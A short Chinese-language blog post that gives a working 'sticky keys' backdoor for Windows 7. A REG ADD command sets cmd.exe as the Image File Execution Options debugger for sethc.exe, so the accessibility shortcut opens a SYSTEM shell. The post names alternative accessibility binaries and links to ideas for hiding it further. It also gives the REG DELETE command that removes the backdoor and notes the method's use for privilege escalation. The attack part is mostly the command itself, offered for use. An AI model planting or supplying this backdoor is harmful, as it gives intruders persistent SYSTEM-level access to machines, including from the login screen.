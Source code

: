 ```yaml
---
layout:     post
title:      win7粘滞键后门
date:       2017-08-03
summary:    win7粘滞键后门
categories: web
tags:
 - 后门
 - win7
---
```


### 0x0 About

win03下copy命令可制作粘滞键后门,测试在win7上copy方法无效,本文记录win7下的方法


### 0x1 Detail

以管理员身份打开cmd.exe运行如下:

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

其中sethc.exe可替换成magnify.exe(放大镜)或其他(eg.narrator.exe/osk.exe),替换成更隐藏的技巧可根据下面链接自由发挥


<a
href="https://answers.microsoft.com/en-us/windows/forum/windows_7-performance/run-command/a2632e97-c8d1-4ab3-8df2-7e70a4448267">AsULike</a>

删除后门以管理员身份打开cmd.exe运行如下即可:

```
REG DELETE "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
```

以上理论上适用于win vistar以上系统,只在win7上测试过.

以上可由管理员权限得到system权限,也可用于替代psexec.exe -s cmd.exe开system权限
